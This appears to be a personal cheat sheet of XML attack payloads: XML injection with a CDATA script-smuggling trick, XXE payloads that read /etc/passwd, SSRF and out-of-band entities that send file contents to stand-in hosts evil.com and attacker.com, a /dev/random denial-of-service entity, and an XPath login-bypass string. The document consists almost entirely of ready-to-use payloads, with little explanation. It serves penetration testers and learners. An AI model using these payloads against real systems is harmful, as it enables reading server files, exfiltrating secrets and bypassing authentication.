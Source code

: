 # XXE and other XML vulnerabilities

## XML injection

* If our input is directly injected as a node inside an xml doc, we can :
  * Inject malformed string to break the parser
  * Modify information with well crafted payload
* If the xml is converted to html `<![CDATA[]]>` might be stripped, making it possible to inject other script undetected : 

```markup
<html>
    <![CDATA[<]]>script<![CDATA[>]]>alert(‘xss’)<![CDATA[<]]>/
    script<![CDATA[>]]>
</html>

<!-- to : -->
<script>alert(‘XSS’)</script>
```

## XXE - _XML External Entities_

### Inband

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE inband [
    <!ELEMENT inband ANY>
    <!ENTITY xxe SYSTEM "/etc/passwd">
]>
<inband>&xxe;</inband>
```

### SSRF - _Server Side Request Forgery_

```markup
<?xml version="1.0"?>
<!DOCTYPE ssrf [
    <!ENTITY request SYSTEM "http://attacker.com">
]>
<ssrf>&request;</ssrf>
```

### Out-of-band

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%file_content;'>">
%wrapper;
```

* If the content of the file would break the parser, use `<![CDATA[]]>` :

```markup
<!-- test.xml-->
<?xml version="1.0" encoding="UTF-8 ?>
<!DOCTYPE test SYSTEM "http://evil.com/external.dtd">
<test>&send;</test>

<!-- external.dtd -->
<!ENTITY % file_content SYSTEM "/etc/passwd">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY send 'http://evil.com/?%start;%file_content;%end;'>">
%wrapper;
```

### DDOS

```markup
<?xml version=”1.0” encoding=”ISO-8859-1”?>
 <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM “file:///dev/random” >
]>
<foo>&xxe;</foo>
```

### Additionnal ressources

* [acunetix.com](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)  
* [mohemiv.com](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* See also "A Billion Laugh" attack

## XPath Injection

* Same logic as SQL injection : `1‘ or ‘1’ = ‘1`

```text
# this :
string(//user[user/text()=’gandalf’ and pass/text()=’qwertasd123’]/account/text())

# to this :
string(//user[user/text()=’gandalf’ and pass/text()=’’ or ‘1’ = ‘1’]/account/text())
```

* I guess the same is possible with XQuery

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction [video](https://youtu.be/gjm6VHZa_8s)
* Misc research


